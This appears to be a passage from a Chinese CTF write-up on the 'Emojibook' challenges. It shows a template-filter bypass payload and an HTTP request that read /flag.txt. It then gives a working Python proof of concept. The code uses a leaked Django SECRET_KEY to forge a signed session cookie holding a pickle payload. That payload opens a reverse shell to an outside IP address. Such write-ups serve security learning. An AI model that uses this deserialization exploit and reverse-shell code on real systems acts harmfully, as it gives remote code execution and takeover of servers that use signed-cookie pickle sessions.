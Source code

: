 关键是`instance.body = instance.body.replace("{{", "").replace("}}", "").replace("..", "")`，给替换给空了。但是很明显的，可以绕过，构造：

```python
{..{/flag.txt}..}
```

再base64解码即可得到flag：

```http
csrfmiddlewaretoken=bNDnx7f3m8CerN3bmcGLCSMNxU2hIqA5Z2eo7DqrZWsGbKP9plFRgRkvpOaUp3pg&name=1&body={..{/flag.txt}..}
```

非预期，而且很关键的就是，可以搭顺风车。



# Emojibook 2

修复了非预期，想了很久也没做出来，还是自己见识的东西太少了。看了一下Y4师傅的wp学习了一下。



实际上我看`setting.py`的时候注意到了`SECRET_KEY`，只是不知道有什么用。实际上思维再开阔一点，直接搜django的rce，也可以搜出来这么个`session`的反序列化rce。网上的文章很多，说白了就是SECRET_KEY知道了，而且是这个配置：

```python
SESSION_ENGINE = "django.contrib.sessions.backends.signed_cookies"
SESSION_SERIALIZER = "django.contrib.sessions.serializers.PickleSerializer"
```

至于`SECRET_KEY`，直接利用那个文件读取去读`/app/notebook/settings.py`即可，只是单纯的读不到`/flag.txt`，其他的文件都可以读。

然后直接拿POC打就可以了：

```python
from django.core.signing import TimestampSigner, b64_encode
from django.utils.encoding import force_bytes
from django.conf import settings
import pickle
import os

class PickleRCE(object):
    def __reduce__(self):
        return (os.system,("""python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("118.31.168.198",39876));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'""",))

SECRET_KEY = 'wr`BQcZHs4~}EyU(m]`F_SL^BjnkH7"(S3xv,{sp)Xaqg?2pj2=hFCgN"CR"UPn4'
settings.configure(DEFAULT_HASHING_ALGORITHM='sha256')  # SECRET_KEY 参数的值为 demo Django 项目的 SECRET_KEY 值
def rotten_cookie():
    key = force_bytes(SECRET_KEY)
    salt = 'django.contrib.sessions.backends.signed_cookies'
    base64d = b64_encode(pickle.dumps(PickleRCE())).decode()
    return TimestampSigner(key, salt=salt).sign(base64d)

forge_sessionid = rotten_cookie()
print(forge_sessionid)

```
